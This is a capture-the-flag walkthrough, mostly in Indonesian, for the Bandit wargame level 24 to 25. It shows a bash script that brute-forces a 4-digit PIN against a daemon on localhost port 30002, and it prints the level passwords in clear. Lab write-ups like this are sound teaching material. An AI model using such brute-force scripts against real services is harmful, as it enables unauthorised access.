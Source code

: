 # Bandit - Level 24-25

## Approach

> A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.You do not need to create new connections each time

## Explanation

Dari soal diatas untuk mendapatkan password untuk level berikutnya kita diperlukan untuk memberikan password saat ini + 4 digin dari 0000-9999 yang nantinya akan dikirikan melalui nc localhost 30002, untuk itu kita perlu membuat sebuah script untuk melakukan brute force tersebut, sebelum membuaty script kita buat dulu folder tmpnya.

![!image](docs/image_1.png)

Setelah membuat folder tmp selanjutnya kita buat payload untuk membrute forcenya.

```sh
#!/bin/bash 

for i in {0000..9999}
do
        echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i >> cobapass.txt
done

cat cobapass.txt | nc localhost 30002 > hasil.txt
```

Setelah menunggu beberapa saat kita cari password untuk level berikutnya pada hasil.txt dengan menggunakan `grep`

```sh
bandit24@bandit:/tmp/tmp.A26USKlCOU$ cat hasil.txt | grep -v "Wrong!"
```

![!image](docs/image_2.png)

Result: `iCi86ttT4KSNe1armKiwbQNmB3YJP3q4`
